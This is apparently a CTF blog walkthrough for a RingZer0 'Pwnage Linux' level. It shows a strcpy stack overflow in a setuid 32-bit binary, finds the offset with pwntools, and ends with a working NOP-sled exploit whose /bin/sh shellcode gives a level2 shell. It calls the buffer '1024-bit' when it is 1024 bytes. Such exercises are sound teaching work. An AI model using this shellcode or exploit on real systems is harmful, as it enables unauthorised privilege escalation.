 ```yaml
---
title: "R0 | Pwnage Linux - Level1"
layout: post
date: 2019-08-10
tag:
- Pwnage
- x86
- Linux
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level1
---
```


`# cat /levels/level1.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[1024];

    strcpy(buf, argv[1]);
    return 0;
}
```

This code's copying the argument to a 1024-bit buffer using the well known vulnerable function `strcpy`.


`# file /levels/level1`

```
level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f355fe3b2ac64ecfedfcf48c6208429d0138e80d, not stripped
```

> Has a setuid (probably for the next level.. )

> Is compiled for 32 processors (e.g.: x86 arch)

`# checksec /levels/level1`

```
[*] '/root/ringzer0team/pwnageLinux/level1/a.out'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

> No RELRO (Relocation Read-Only): it's possible to overwrite global variable

> No canary found: it's possible to smash the stack 

> NX (no executable) disabled: it's possible to write and execute from the stack

> No PIE (Position Independant Executable): it tells the loader which virtual address it should use and keeps its memory layout quite static (e.g.: `0x8048000`)

So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's an x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.

1. Find the offset of the return adress

```python
from pwn import *
cyclic(2000)
```

``` bash
(gdb) run <CYCLIC_PL>
Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()
```

```python
cyclic_find(0x6b61616a)
1036
```
2. Get a x86 shellcode

```python
 len("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
45
```

3. Pick the return address

```bash
(gdb) run `python -c 'print "A" * 1040'`
(gdb) x/100wx $esp-1050
0xffffd456:	0x0048ffff	0x00040000	0x41410000	0x41414141
0xffffd466:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd476:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd486:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd496:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd506:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd516:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd526:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd536:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd546:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd556:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd566:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd576:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd586:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd596:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5a6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5b6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5c6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d6:	0x41414141	0x41414141	0x41414141	0x41414141
```

4. Craft the PL (e.g.: NOP + SHELLCODE + RETURNADRESS)

```bash
/levels/level1 `python -c 'print "\X90" * 1036-45 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
```

That's it!

```
level1@lxc-pwn-x86:~$ /levels/level1 `python -c 'print "\x90" * (1036-45) + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xb6\xd5\xff\xff"'`
level2@lxc-pwn-x86:/home/level1$ wc /home/level2/.pass
 1  1 21 /home/level2/.pass
level2@lxc-pwn-x86:/home/level1$
```
